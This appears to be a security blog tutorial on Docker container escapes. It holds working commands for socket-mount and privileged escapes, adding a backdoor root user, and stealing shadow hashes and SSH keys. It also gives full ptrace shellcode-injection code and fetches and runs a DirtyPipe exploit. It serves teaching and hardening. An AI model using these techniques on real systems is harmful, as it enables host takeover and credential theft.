









Containers aren't VMs. This is the fundamental reason Docker escapes exist.

When you spin up a VM, you're getting a completely separate kernel, virtual hardware, the whole deal. The hypervisor sits between your VM and the host, and what happens inside stays inside.

Docker? It's just a fancy process. Your container shares the same kernel as your host machine. The isolation comes from Linux features like namespaces, cgroups, and seccomp - not from hardware separation. This makes containers lightweight and fast, but it also means the barrier between container and host is thinner than most people realize.

## How Docker Works Under the Hood

When you run `docker run`, here's what actually happens:



Your CLI talks to the Docker daemon through a Unix socket at `/var/run/docker.sock`. Why a Unix socket and not TCP? Two reasons:

1. **Security through filesystem permissions** - Unix sockets are files, so you can control access with standard file permissions. Only users in the `docker` group (or root) can read/write to the socket. With TCP, you'd need additional authentication layers.

2. **No network exposure** - A Unix socket only exists on the local filesystem. There's no port to accidentally expose to the network, no firewall rules to mess up. It's local-only by design.

The socket is essentially an HTTP API endpoint. When you run `docker ps`, your CLI is making an HTTP GET request to the daemon through that socket. When you run `docker run`, it's a POST request with container configuration as JSON. The daemon runs as root and does all the heavy lifting.

From there, the daemon hands things off to **containerd** (the high-level runtime). Containerd manages the container lifecycle - pulling images, managing storage snapshots, handling container states. It's the layer that makes containers feel like persistent objects rather than just processes.

Containerd then passes execution to **runc** (the low-level runtime). This is where containers actually get created. Runc talks directly to the Linux kernel to set up all the isolation primitives. It's a small, focused tool that implements the OCI runtime specification.

### The Isolation Mechanisms



**Namespaces** are the core of container isolation. Linux supports several namespace types:
- **PID namespace** - Container sees its own process tree, with its init as PID 1
- **NET namespace** - Container gets its own network stack, interfaces, routing tables
- **MNT namespace** - Container has its own filesystem mount points
- **UTS namespace** - Container can have its own hostname
- **IPC namespace** - Isolated inter-process communication
- **USER namespace** - Maps container UIDs to different host UIDs

Each namespace makes the container think it's alone on the system. But here's the thing - the kernel still sees everything. Namespaces are just filters on what a process can see, not actual separation.

**Cgroups** (control groups) handle resource limits. You can cap CPU usage, memory consumption, disk I/O, network bandwidth. Without these, a container could trivially DoS the host by consuming all resources. Cgroups also provide resource accounting - you can see exactly how much CPU/memory each container is using.

**Seccomp** (secure computing mode) filters syscalls at the kernel level. Docker's default seccomp profile blocks around 44 syscalls out of 300+. Things like `reboot`, `mount`, `swapon`, `clock_settime` - syscalls that could affect the host system. If a containerized process tries to call a blocked syscall, it gets killed with SIGSYS.

**Capabilities** break the monolithic root privilege into ~40 distinct capabilities. Instead of "can do everything" you get granular permissions like:
- `CAP_NET_ADMIN` - modify network settings
- `CAP_SYS_ADMIN` - the catch-all "almost root" capability
- `CAP_SYS_PTRACE` - trace/debug other processes
- `CAP_SYS_MODULE` - load kernel modules

Docker drops most capabilities by default. A container running as root inside still can't do most privileged operations unless explicitly granted.

**AppArmor/SELinux** are Linux Security Modules that provide mandatory access control. Even if a process is root with all capabilities, LSMs can still block actions based on security policies. They're the last line of defense when everything else fails.

Sounds pretty secure right? Layer upon layer of isolation. The problem is these are all software boundaries enforced by the same kernel the container is using. Misconfigure one layer, find a bug in the kernel, or combine several "harmless" permissions - and suddenly you're on the host.

---

## Escape Techniques

### 1. Docker Socket Mount

This is the most common escape I see in the wild, and honestly it's embarrassing how often it happens.

Some applications need to interact with Docker - CI/CD pipelines, monitoring tools, container orchestration. The "easy" solution is mounting the Docker socket into the container: `-v /var/run/docker.sock:/var/run/docker.sock`

The moment you do this, you've given that container full control over the Docker daemon. The daemon runs as root on the host. So now the container can create new containers with any configuration it wants - including one that mounts the entire host filesystem with full privileges.



```bash
# Vulnerable setup
docker run -v /var/run/docker.sock:/var/run/docker.sock -it ubuntu

# Inside container - install docker cli
apt update && apt install -y docker.io

# Spawn privileged container with host root mounted
docker run -it -v /:/host --privileged ubuntu chroot /host

# You're now root on the host
root@host:/# ls /
bin  boot  dev  etc  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var

root@host:/# cat /etc/shadow
root:$6$xyz$...:19000:0:99999:7:::
```

Game over.

#### CVE-2025-9074: Docker Desktop API Exposure

This vulnerability made the socket mount issue even worse on Docker Desktop. The Docker Engine API was accessible **without authentication** via an internal TCP socket (typically `192.168.65.7:2375`) from inside any container - even without explicitly mounting the socket.

This meant any container running on Docker Desktop could connect to `http://192.168.65.7:2375` and have full control over the Docker daemon. No socket mount required. The fix involved properly restricting access to this internal API endpoint, but if you're running an unpatched version of Docker Desktop, every container you run has implicit access to the daemon.

### 2. Sensitive Directory Mounts

Similar problem, different flavor. Sometimes people mount host directories into containers for convenience - config files, home directories, whatever.

Mounting `/etc` means the container can read `/etc/shadow` (password hashes) or add entries to `/etc/passwd`. Mounting `/root` gives access to SSH keys. Even mounting something seemingly innocent like `/var/log` can leak sensitive information.



```bash
# Vulnerable container with /etc mounted
docker run -v /etc:/host_etc -it ubuntu

# Read password hashes
cat /host_etc/shadow

# Add backdoor user (if read-write)
echo 'backdoor:x:0:0::/root:/bin/bash' >> /host_etc/passwd

# Or steal SSH keys if /root is mounted
docker run -v /root:/host_root -it ubuntu
cat /host_root/.ssh/id_rsa
```

If the mount is read-write, the attacker can also modify these files. Adding a backdoor user to passwd or dropping an SSH key into authorized_keys gives persistent access.

### 3. The uevent_helper Attack

This one's interesting because it abuses a legitimate kernel feature.

Linux has a mechanism called `uevent_helper` at `/sys/kernel/uevent_helper`. Whenever a device event happens in the kernel - USB plugged in, network interface changes state, any hardware event - the kernel can execute a userspace helper program specified in this file.

Here's the catch: the kernel doesn't know about container namespaces when it executes this helper. It runs in the kernel's context, which means the host's context.



So if an attacker can write to `/sys/kernel/uevent_helper`, they write a path to their malicious script, then trigger any device event (writing to `/sys/class/mem/null/uevent` works). The kernel executes their script as root on the host, completely bypassing container isolation.

The good news is this requires `/sys` to be mounted read-write, which it shouldn't be. Modern container runtimes mount it read-only by default. But if someone's running an older setup or explicitly mounted it writable, this attack path exists.

### 4. Privileged Containers

Running a container with `--privileged` basically turns off all the security features I mentioned earlier. Full access to host devices, all capabilities enabled (including `CAP_SYS_ADMIN` which allows mounting filesystems), no seccomp filtering.

At that point the container is essentially root on the host with a slightly different filesystem view. Mounting the host disk, accessing `/dev/mem`, manipulating cgroups - all fair game.



```bash
# Run privileged container
docker run --privileged -it ubuntu

# Mount host filesystem directly
mkdir /mnt/host
mount /dev/sda1 /mnt/host
cat /mnt/host/etc/shadow
```

### 5. Process Injection with SYS_PTRACE

If a container has the `CAP_SYS_PTRACE` capability and shares the host's PID namespace (`--pid=host`), it can use ptrace to attach to host processes.

Ptrace is the debugging interface - it's how gdb works. With it, you can read and write process memory, modify registers, inject code.



```bash
# Vulnerable container setup
docker run --cap-add=SYS_PTRACE --pid=host -it ubuntu

# Check you have ptrace capability
capsh --print | grep ptrace
# Output: Current: cap_sys_ptrace+ep

# Find a host process - you'll see ALL host processes
ps aux | grep root
# Output:
# root         1  0.0  0.1 169836 13400 ?  Ss   09:15   0:02 /sbin/init
# root       412  0.0  0.2  48564 18232 ?  Ss   09:15   0:00 /lib/systemd/systemd-journald
# root       451  0.0  0.1  25532  9128 ?  Ss   09:15   0:00 /lib/systemd/systemd-udevd
# root       892  0.0  0.1  15420  9396 ?  Ss   09:15   0:00 sshd: /usr/sbin/sshd -D
```

The shellcode we inject is a simple `execve("/bin/sh")` - here's the assembly ([shell_code.asm](https://github.com/MindPatch/zeronleft_labs/blob/master/shell_code.asm)):

```asm
section .text
    global _start

_start:
    xor rax,rax
    mov rdx,rax         ; No Env
    mov rsi,rax         ; No argv
    lea rdi, [rel msg]
    add al, 0x3b        ; syscall number for execve
    syscall

    msg db '/bin/sh',0
```

This compiles down to the shellcode bytes. Here's the C code that injects it into a running process using ptrace ([mem_inj.c](https://github.com/MindPatch/zeronleft_labs/blob/master/mem_inj.c)):

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <sys/ptrace.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <unistd.h>
#include <sys/user.h>
#include <sys/reg.h>

#define SHELLCODE_SIZE 32

unsigned char *shellcode =
  "\x48\x31\xc0\x48\x89\xc2\x48\x89"
  "\xc6\x48\x8d\x3d\x04\x00\x00\x00"
  "\x04\x3b\x0f\x05\x2f\x62\x69\x6e"
  "\x2f\x73\x68\x00\xcc\x90\x90\x90";

int inject_data(pid_t pid, unsigned char *src, void *dst, int len) {
    int i;
    uint32_t *s = (uint32_t *) src;
    uint32_t *d = (uint32_t *) dst;

    for (i = 0; i < len; i+=4, s++, d++) {
        if ((ptrace(PTRACE_POKETEXT, pid, d, *s)) < 0) {
            perror("ptrace(POKETEXT):");
            return -1;
        }
    }
    return 0;
}

int main(int argc, char *argv[]) {
    pid_t target;
    struct user_regs_struct regs;

    if (argc != 2) {
        fprintf(stderr, "Usage:\n\t%s pid\n", argv[0]);
        exit(1);
    }

    target = atoi(argv[1]);
    printf("+ Tracing process %d\n", target);

    if ((ptrace(PTRACE_ATTACH, target, NULL, NULL)) < 0) {
        perror("ptrace(ATTACH):");
        exit(1);
    }

    printf("+ Waiting for process...\n");
    wait(NULL);

    printf("+ Getting Registers\n");
    if ((ptrace(PTRACE_GETREGS, target, NULL, &regs)) < 0) {
        perror("ptrace(GETREGS):");
        exit(1);
    }

    printf("+ Injecting shell code at %p\n", (void*)regs.rip);
    inject_data(target, shellcode, (void*)regs.rip, SHELLCODE_SIZE);

    regs.rip += 2;
    printf("+ Setting instruction pointer to %p\n", (void*)regs.rip);

    if ((ptrace(PTRACE_SETREGS, target, NULL, &regs)) < 0) {
        perror("ptrace(SETREGS):");
        exit(1);
    }

    printf("+ Run it!\n");

    if ((ptrace(PTRACE_DETACH, target, NULL, NULL)) < 0) {
        perror("ptrace(DETACH):");
        exit(1);
    }

    return 0;
}
```

Compile and run against a host process:

```bash
# Terminal 1 (tmux session) - run a simple process as root
root@host:~$ sleep 99999
```

```bash
# Terminal 2 - find the sleep process and inject
root@container:~$ ps aux | grep sleep
root      5322  0.0  0.0   8400   532 pts/1    S+   14:32   0:00 sleep 99999

root@container:~$ gcc -o inject mem_inj.c
root@container:~$ ./inject 5322
+ Tracing process 5322
+ Waiting for process...
+ Getting Registers
+ Injecting shellcode at 0x7f4a2c3b1000
+ Setting instruction pointer to 0x7f4a2c3b1002
+ Run it!
```

```bash
# Terminal 1 - sleep gets replaced with a shell!
root@host:~$ sleep 99999
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
```

The shell spawns in Terminal 1 where sleep was running - the process memory got overwritten with our shellcode, and now we have code execution in the host context.

### 6. Kernel Exploits

Since containers share the kernel with the host, any kernel vulnerability is exploitable from inside a container. DirtyCow, DirtyPipe, whatever the next big kernel bug is - if it gives you privilege escalation, it works from containers too.



```bash
# Check kernel version
uname -r

# Example: DirtyPipe (CVE-2022-0847) affects Linux 5.8+
# Download and compile exploit
git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits
cd CVE-2022-0847-DirtyPipe-Exploits
gcc exploit-1.c -o exploit

# Run it - overwrites /etc/passwd to add root user
./exploit
```

This is fundamentally different from VMs where a kernel exploit only gives you the VM's kernel, not the host's. With containers, kernel security is container security.

#### Loading Malicious Kernel Modules

If a container has `CAP_SYS_MODULE` capability (or runs privileged), it can load arbitrary kernel modules into the host kernel. This is basically game over - a kernel module runs with full kernel privileges, completely outside any container isolation.



```bash
# Check if you have CAP_SYS_MODULE
capsh --print | grep sys_module

# Compile a malicious kernel module (on attacker machine)
# This example module spawns a reverse shell
make -C /lib/modules/$(uname -r)/build M=$(pwd) modules

# Inside container with CAP_SYS_MODULE
insmod /path/to/evil.ko
```

The module executes in kernel space on the host. From there you can disable security features, hide processes, intercept syscalls - anything the kernel can do.

---

## References

- [Docker Security Best Practices](https://docs.docker.com/engine/security/)
- [Understanding Docker Container Escapes](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)
- [Linux Capabilities](https://man7.org/linux/man-pages/man7/capabilities.7.html)
- [CGroups Escape Techniques](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation)
- [CVE-2025-9074 - Docker Desktop API Exposure](https://www.docker.com/blog/docker-security-advisory-docker-engine-authz-plugin/)
- [Memory Injection Code](https://github.com/MindPatch/zeronleft_labs/blob/master/mem_inj.c)
- [Shellcode Assembly](https://github.com/MindPatch/zeronleft_labs/blob/master/shell_code.asm)
